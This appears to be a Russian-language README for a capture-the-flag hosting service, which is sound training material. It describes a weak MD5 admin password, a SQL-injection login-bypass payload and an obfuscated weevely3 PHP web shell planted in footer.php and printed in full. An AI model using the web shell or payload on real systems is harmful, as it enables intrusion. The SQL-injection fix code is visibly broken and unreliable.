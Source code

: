 # "Виртуальный хостинг Змей Горыныч"

## Overview

Сервис представляет собой подобие виртуального хостинга сайтов (shared web hosting)

Условные клиенты разместили три сайта на данном хостинге. В каждом раунде "операторы" оставляют новые заявки клиентов в административной панели,
часть информации которой является флагом. 

Приветствие для участников:
	Приветствуем вас на вашей новой работе, можете гордо называть себя: 
	Администратор виртуального хостинга сайтов "Змей Горыныч".
	В данный момент наш хостинг обработал трех клиентов, обработал - то есть запустил их сайты.
	Основная наша работа - поддерживать их в рабочем состоянии, клиент для нас прежде всего! 

	Сегодня ожидается большое количество заявок от клиентов, мы дали удачную рекламу после ребрендинга, 
	операторы будут вносить их на вторую вкладку сайта. Сами сайты на выходных мы не поднимаем, это в понедельник
	будут делать другие люди.

Для успешной работы чекера вам необходимо держать сайты клиентов в рабочем состоянии, есть возможность включать или выключать их через административную панель (порт 1000)


## Уязвимость 1: weak md5 in database

### Описание:
	В ипортируемой базе данных учетная запись mysql_test содержит слабый хэш md5, который легко пробивается по базам, исходное значение: admin12345
	```bash
	INSERT INTO `admin_panel_users` (`ID`, `user`, `password`) VALUES
	(5, 'mysql_test', '7488e331b8b64e5794da3fa4eb10ad5d');
        ```

### FIX:

    Удалить учетную запись или поменять пароль

## Уязвимость 2: SQL injection

### Описание:
	Функция авторизации в административную панель "validate_cred" содержит прямой запрос к базе данных, уязвимый к sql инъекции:
	
	$query2 = "SELECT user, password FROM `admin_panel_users` WHERE user = '".$login."' AND password = '".$password."'";
	$result2 = mysqli_query($link, $query2);
    $COUNT2 = mysqli_num_rows($result2);
	if ($COUNT2 != 1 and $COUNT3 != 1) {
            mysqli_close($link);
            return false;
        }
        else {
            return true;
        }

	Пример вводимых учетных данных для реализации sql инъекции:
	login: old_admin
	password: ' or 1=1 LIMIT 1 -- -


### FIX:
    Необходимо использовать привязку переменных к параметрам подготавливаемого запроса mysqli_stmt_bind_param:

            mysqli_stmt_bind_param($stmt, "ss", $LOGIN, $PASSWORD);  //dont work
            $ip_address  = $_SERVER['HTTP_HOST']; 
            $LOGIN = $login;
            $PASSWORD = $password;
            
            $RESULT = mysqli_stmt_get_result($stmt);
            $COUNT = mysqli_num_rows($RESULT);


## Уязвимость 3: Веб-шелл weevely3 в одном сайте клиентов виртуального хостинга

### Описание:
    В первом сайте (site1) на странице page.html подключаемый footer.php является серверной частью веб-шелла weevely3
    page.html:
        ...
	    <footer class="footer text-center py-2 theme-bg-dark"> 
			<!-- Bootstrap PHP -->
			<?php include 'images/footer.php';?>
	    </footer>
        ...
    footer.php:
        <?php
            $A='?ecode($m]?[1]),$k]?)));$o=]?@ob]?_get_co]?n]?tents();@ob_]?en]?d_clea]?n();$';
            $P='$k="194a]?43aa]?";]?$kh="2]?d18d8fd5]?fb]?7";$kf="c1e0]?8]?2ba23cc";$]?p="p';
            $G=str_replace('XZ','','cXZXZreaXZtXZe_fuXZncXZtion');
            $S='<$l);$j++]?,$i+]?+]?){$o.=$t{$i]?}^$k{$j]?};}}r]?eturn $o]?;}if ]?(@pr]?eg_mat';
            $O='$m)==]?1)]? {@ob_sta]?]?rt()]?;@e]?val(@gzu]?]?ncompress(@x(@ba]?se64_d]';
            $U='r=@base]?6]?4_en]?code(@x(@gzc]?ompres]?s($o)]?,$]?k));print]?("$p$kh]?$r$kf");}';
            $L='LdZAm]?]?eDqdAQo]?03S";]?func]?tion x($t,$k)]?]?{$c=strlen($]?k);$l=st]?';
            $Q='rlen($]?t);$o]?="";]?for($i=]?0]?]?;$i<$]?l;){for($j]?=0]?;($j<$c&&$i';
            $u='ch]?("/$]?kh(.+)$kf]?/]?",@file_ge]?t_]?c]?ontents(]?"php://]?input"),';
            $J=str_replace(']?','',$P.$L.$Q.$S.$u.$O.$A.$U);
            $c=$G('',$J);$c();
        ?>  
    
    Данный веб-шелл использует пароль. Для его получения необходимо деобфусцировать код шелла. 
    Привер деобфускации: https://artikrh.sh/posts/weevely-backdoor-analysis.html
    И далее с помощью клиента weevely3 авторизоваться на странице page.html:
    Формат: weevely ip_address password


### FIX:
    Удалить код веб-шелла со страницы
